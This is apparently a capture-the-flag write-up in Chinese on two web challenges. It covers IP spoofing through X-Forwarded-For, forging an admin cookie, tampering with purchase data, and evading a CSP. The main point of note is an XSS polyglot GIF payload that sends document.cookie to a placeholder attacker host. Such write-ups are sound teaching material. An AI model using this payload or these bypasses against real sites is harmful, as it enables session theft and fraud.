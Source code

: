## [Web] Kobe System    [20]先查看 robots.txt 會發現應該是 flag 在的位置直接連過去看會出現 ``只允許管理者``修改 http header X-Forwarded-For 偽造來源 IP 為 ``127.0.0.1``cookie 部分看起來應該是 base64 解出來是個 QRcodeQRcode 的內容為 ``{isAdmin:false}`` 把 ``flase`` 改成 ``true`` 重新做一個 QRcode 再用 base64 加密這樣再回去看應該可以得到 Flag 了## [Web] BaNanA Store 2.0 [30]
猜一下網址 ``/admin/`` 會發現這應該是我們要找的目標
訂購頁面確認金額的部分只是簡單驗證個數乘上金額會 ≤ 錢包金額
因為錢包金額是 0 元，所以要修改送出去的資料讓我這個錢包沒錢的人可以買手機 QQ
XSS 的時候會發現有 CSP 保護，但是他只 allow ``i.imgur.com`` 這個
所以利用 imagejs 將 script 轉換成圖片上傳基本上就可以得到 cookies 了
```
GIF89a/* 0  ;*/=0;
window.location.href="http://YourIP/steal.gif?cookie=" + document.cookie;```
然後不知道為什麼 papa 號這題一直拿不到 cookie  ... 
花了大概一個多小時在研究這個，結果換台機器就好了 QQ